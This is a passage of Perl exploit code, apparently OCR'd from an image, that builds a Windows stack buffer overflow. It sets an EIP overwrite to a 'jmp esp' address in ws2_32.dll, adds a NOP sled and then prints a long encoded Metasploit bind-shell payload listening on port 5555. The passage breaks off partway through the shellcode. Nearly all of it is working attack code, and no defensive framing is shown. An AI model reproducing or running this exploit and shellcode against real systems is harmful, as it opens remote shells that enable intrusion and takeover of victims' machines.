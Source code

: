 	#jmp esp (from ws2_32.dll)
	my $eipoverwrite = pack('V',0x71a22b53);
	
	#add some NOP's
	my $shellcode="\x90" x 50;
	
	# windows/shell_bind_tcp - 702 bytes
	# http://www.metasploit.com
	# Encoder: x86/alpha_upper
	# EXITFUNC=seh, LPORT=5555, RHOST=
	$shellcode=$shellcode."\x89\xe0\xd9\xd0\xd9\x70\xf4\x59\x49\x49\x49\x49\x49\x43" .
	"\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33\x30\x56\x58" .
	"\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41\x42" .
	"\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30" .
	"\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b\x4c\x42\x4a" .
	"\x4a\x4b\x50\x4d\x4d\x38\x4c\x39\x4b\x4f\x4b\x4f\x4b\x4f" .
	"\x45\x30\x4c\x4b\x42\x4c\x51\x34\x51\x34\x4c\x4b\x47\x35" .
	"\x47\x4c\x4c\x4b\x43\x4c\x43\x35\x44\x38\x45\x51\x4a\x4f" .
	"\x4c\x4b\x50\x4f\x44\x58\x4c\x4b\x51\x4f\x47\x50\x43\x31" .
	"\x4a\x4b\x47\x39\x4c\x4b\x46\x54\x4c\x4b\x43\x31\x4a\x4e" .
	"\x50\x31\x49\x50\x4a\x39\x4e\x4c\x4c\x44\x49\x50\x42\x54" .
	"\x45\x57\x49\x51\x48\x4a\x44\x4d\x45\x51\x48\x42\x4a\x4b" .
	"\x4c\x34\x47\x4b\x46\x34\x46\x44\x51\x38\x42\x55\x4a\x45" .
	"\x4c\x4b\x51\x4f\x51\x34\x43\x31\x4a\x4b\x43\x56\x4c\x4b" .
	"\x44\x4c\x50\x4b\x4c\x4b\x51\x4f\x45\x4c\x43\x31\x4a\x4b" .
	"\x44\x43\x46\x4c\x4c\x4b\x4b\x39\x42\x4c\x51\x34\x45\x4c" .
	"\x45\x31\x49\x53\x46\x51\x49\x4b\x43\x54\x4c\x4b\x51\x53" .
	"\x50\x30\x4c\x4b\x47\x30\x44\x4c\x4c\x4b\x42\x50\x45\x4c" .
	"\x4e\x4d\x4c\x4b\x51\x50\x44\x48\x51\x4e\x43\x58\x4c\x4e" .
	"\x50\x4e\x44\x4e\x4a\x4c\x46\x30\x4b\x4f\x4e\x36\x45\x36" .
	"\x51\x43\x42\x46\x43\x58\x46\x53\x47\x42\x45\x38\x43\x47" .
	"\x44\x33\x46\x52\x51\x4f\x46\x34\x4b\x4f\x48\x50\x42\x48" .
	"\x48\x4b\x4a\x4d\x4b\x4c\x47\x4b\x46\x30\x4b\x4f\x48\x56" .
	"\x51\x4f\x4c\x49\x4d\x35\x43\x56\x4b\x31\x4a\x4d\x45\x58" .
	"\x44\x42\x46\x35\x43\x5a\x43\x32\x4b\x4f\x4e\x30\x45\x38" .
	"\x48\x59\x45\x59\x4a\x55\x4e\x4d\x51\x47\x4b\x4f\x48\x56" .
	"\x51\x43\x50\x53\x50\x53\x46\x33\x46\x33\x51\x53\x50\x53" .
	"\x47\x33\x46\x33\x4b\x4f\x4e\x30\x42\x46\x42\x48\x42\x35" .
	"\x4e\x53\x45\x36\x50\x53\x4b\x39\x4b\x51\x4c\x55\x43\x58" .
	"\x4e\x44\x45\x4a\x44\x30\x49\x57\x46\x37\x4b\x4f\x4e\x36" .
	"\x42\x4a\x44\x50\x50\x51\x50\x55\x4b\x4f\x48\x50\x45\x38" .
	"\x49\x34\x4e\x4d\x46\x4e\x4a\x49\x50\x57\x4b\x4f\x49\x46" .
	"\x46\x33\x50\x55\x4b\x4f\x4e\x30\x42\x48\x4d\x35\x51\x59" .
	"\x4c\x46\x51\x59\x51\x47\x4b\x4f\x49\x46\x46\x30\x50\x54" .
	"\x46\x34\x50\x55\x4b\x4f\x48\x50\x4a\x33\x43\x58\x4b\x57" .
	"\x43\x49\x48\x46\x44\x39\x51\x47\x4b\x4f\x4e\x36\x46\x35" .
	"\x4b\x4f\x48\x50\x43\x56\x43\x5a\x45\x34\x42\x46\x45\x38" .
	"\x43\x53\x42\x4d\x4b\x39\x4a\x45\x42\x4a\x50\x50\x50\x59" .
	"\x47\x59\x48\x4c\x4b\x39\x4d\x37\x42\x4a\x47\x34\x4c\x49" .
	"\x4b\x52\x46\x51\x49\x50\x4b\x43\x4e\x4a\x4b\x4e\x47\x32" .
	"\x46\x4d\x4b\x4e\x50\x42\x46\x4c\x4d\x43\x4c\x4d\x42\x5a" .
	"\x46\x58\x4e\x4b\x4e\x4b\x4e\x4b\x43\x58\x43\x42\x4b\x4e" .
	"\x48\x33\x42\x36\x4b\x4f\x43\x45\x51\x54\x4b\x4f\x48\x56" .
	"\x51\x4b\x46\x37\x50\x52\x50\x51\x50\x51\x50\x51\x43\x5a" .
	"\x45\x51\x46\x31\x50\x51\x51\x45\x50\x51\x4b\x4f\x4e\x30" .
	"\x43\x58\x4e\x4d\x49\x49\x44\x45\x48\x4e\x46\x33\x4b\x4f" .
	"\x48\x56\x43\x5a\x4b\x4f\x4b\x4f\x50\x37\x4b\x4f\x4e\x30" .
	"\x4c\x4b\x51\x47\x4b\x4c\x4b\x33\x49\x54\x42\x44\x4b\x4f" .